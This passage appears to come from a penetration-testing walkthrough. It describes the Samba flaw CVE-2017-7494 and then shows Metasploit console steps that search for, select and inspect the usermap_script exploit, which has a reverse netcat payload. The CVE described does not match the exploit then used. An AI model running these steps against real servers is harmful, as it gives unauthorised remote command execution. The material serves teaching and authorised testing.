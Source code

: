 	- CVE-2017-7494: This vulnerability, also known as "SambaCry," is a remote code execution vulnerability in Samba versions 3.5.0 to 4.6.4 that allows an attacker to upload a shared library to a writable share and then cause the server to execute the library. This vulnerability can be exploited over port 139, which is the port used by the Server Message Block (SMB) protocol for file and printer sharing. This vulnerability was first discovered and publicly disclosed in May 2017, and patches were released shortly thereafter.

## Now that we know the version of the Samba daemon running, we can search for vulnerabilities and then use the search command to search for available exploits.
```python
msf6 > search cve:2007 type:exploit samba

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script         2007-05-14       excellent  No     Samba "username map script" Command Execution
   1  exploit/linux/samba/lsa_transnames_heap    2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   2  exploit/osx/samba/lsa_transnames_heap      2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   3  exploit/solaris/samba/lsa_transnames_heap  2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
```

## To select the exploit, employ the use command followed by the exploit name:
```python
msf6 > use exploit/multi/samba/usermap_script
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
```

## Now that we have selected the exploit, we can get more information about it by running the info command:
```python
msf6 exploit(multi/samba/usermap_script) > info

       Name: Samba "username map script" Command Execution
     Module: exploit/multi/samba/usermap_script
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2007-05-14
-------------------------SNIP----------------------------------
```
- Note - The info command with the -f option shows the information in a markdown version with a browser.
